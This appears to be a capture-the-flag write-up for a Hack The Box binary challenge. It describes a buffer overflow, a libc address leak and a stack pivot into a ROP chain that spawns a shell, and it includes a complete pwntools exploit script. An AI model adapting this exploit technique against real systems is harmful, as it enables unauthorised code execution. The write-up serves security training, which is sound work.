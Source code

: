 # reality check
In this task our goal is to get control of rip and rsp for providing ROP-chain to make the execve(“/bin/bash”, 0, 0) syscall.

When executing a program, we have two choices that lead us to reality or fake_reality function. Both gives us a gift.

Function reality gives us an address to the printf and then asks us for the choice. If choice is equal to 1, then it calls a fake_reality function.

Function fake_reality has a buffer overflow vulnerability. It reads 70 bytes from stdin to buffer with size 54. Stack has no protection, so we can simply overwrite 16 bytes just after the buffer and control rip.

Our steps are looks like:

1.	Make the second choice in main to get to the reality function.
2.	Calculate libc base address by the pointer to printf.
3.	Make the first choice in reality to get to the fake_reality function.
4.	Knowing the address of the buffer, write a ROP-chain to it and use overflow to set rbp to our buffer and rip to (leave; ret) address. That causes rsp to point on the buffer that already contains ROP-chain. After this step, we must get a shell..
5.	When getting shell, execute “cat flag.txt” to get a flag.
There is the script that doing all this steps:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./reality_check --host docker.hackthebox.eu --port 30565
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./reality_check')

if exe.bits == 32:
    lindbg = "/root/linux_server"
else:
    lindbg = "/root/linux_server64"

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'docker.hackthebox.eu'
port = int(args.PORT or 30565)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.EDB:
        return process(['edb', '--run', exe.path] + argv, *a, **kw)
    elif args.QIRA:
        return process(['qira', exe.path] + argv, *a, **kw)
    elif args.IDA:
        return process([lindbg], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

libc = ELF('./libc.so.6')

POP_ECX = 0x001938e8
POP_EBX = 0x00018c85
POP_EDX = 0x00001aae
POP_EAX = 0x00024b27
INT80 = 0x00002d37
BIN_SH = 0x17B88F
LEAVE_RET = 0x804925B

io = start()

io.recvuntil('> ')
io.sendline('2')

io.recvuntil('[')
printf = int(io.recvuntil(']')[:-1], 16)

io.recvuntil('> ')
io.sendline('1')

io.recvuntil('[')
buf = int(io.recvuntil(']')[:-1], 16)

libc.address = printf - 0x50C60

print('printf:', hex(printf))
print('buf:', hex(buf))
print('libc base:', hex(libc.address))

io.recvuntil('> ')

pl = p32(libc.address + POP_EBX) + p32(libc.address + BIN_SH)
pl += p32(libc.address + POP_ECX) + p32(0)
pl += p32(libc.address + POP_EDX) + p32(0)
pl += p32(libc.address + POP_EAX) + p32(11)
pl += p32(libc.address + INT80)
pl += cyclic(22)
pl += p32(buf-4) + p32(LEAVE_RET)

print('payload length:', len(pl))

io.send(pl)
sleep(0.5)

io.sendline('cat flag.txt')

io.interactive()
```

Screenshot of the script execution:

![](pictures/2021-03-26-23-26-26.png)
